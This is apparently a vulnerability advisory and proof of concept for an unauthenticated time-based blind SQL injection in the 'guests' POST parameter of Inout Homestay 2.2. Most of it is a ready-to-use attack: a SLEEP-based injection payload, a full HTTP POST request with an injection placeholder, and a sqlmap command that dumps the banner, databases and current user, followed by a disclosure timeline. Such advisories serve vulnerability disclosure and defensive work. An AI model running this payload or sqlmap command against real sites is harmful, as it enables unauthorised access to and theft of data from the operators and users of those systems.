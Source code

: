 # Information
```
Vulnerability Name  : Remote Blind SQL Injections in Inout Homestay
Product             : Inout Homestay
version             : 2.2
Date                : 2022-05-22
Vendor Site         : https://www.inoutscripts.com/products/inout-homestay/
POC                 : https://github.com/bigb0x/CVEs/blob/main/Inout-Homestay-2-2-sqli.md
CVE-Number          : In Progess
Exploit Author      : Mohamed N. Ali @MohamedNab1l
```
<br>

# Description
<br>

Inout Homestay Version 2.2 suffers from time-based blind SQL injection. POST parameters "guests" is vulnerable to SQL imjection attacks.This will allow remote non-authenticated attackers to inject SQL code. This could result in full information disclosure.
<br>

## Vulnerable Parameter: guests (POST)

<br>

Vulnerability: time-based blind SQL injection in guests (POST) parameter.
Vulnerabile file: index.php
<br>

Payload: address=3137 Laguna Street&guests=1' AND (SELECT 1769 FROM (SELECT(SLEEP(5)))XPZb) AND
'ADfU'='ADfU&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San Francisco&searchstate=NY

<br>

### HTTP Post Request
`
POST /index.php?page=search/rentals HTTP/1.1
Content-Type: application/x-www-form-urlencoded
X-Requested-With: XMLHttpRequest
Referer: http://inout-homestay.demo.inoutscripts.net/
Cookie: currencyid=10; currencycode=BYR; language=2; io_lang_code=es
Accept: text/html,application/xhtml+xml,application/xml;q=0.9,*/*;q=0.8
Accept-Encoding: gzip,deflate,br
Content-Length: 189
User-Agent: Mozilla/5.0 (Windows NT 10.0; Win64; x64) AppleWebKit/537.36 (KHTML, like Gecko) Chrome/92.0.4512.0 Safari/537.36
Host: vlun-host.com
Connection: Keep-alive
address=3&guests=-1 [inject_sql_here]&indate=01/01/1967&lat=1&location=1&long=1&outdate=01/01/1967&searchcity=San%20Francisco&searchstate=NY
`
<br>
### POC: sqlmap command:
`
python sqlmap.py -r homestay.txt  -p guests --dbms=MySQL --banner --random-agent --current-db --dbs --current-user
`
<br>

### output:

<br>
<img src="./resources/homestay-sqlmap3.png">
<br>
<img src="./resources/homestay-sqlmap4.png">
<br>


## Timeline
```
2022-05-03: Discovered the bug
2022-05-03: Reported to vendor
2022-05-22: Advisory published
```

<br>

## Discovered by
```
Mohamed N. Ali
@MohamedNab1l
ali.mohamed[at]gmail.com

```
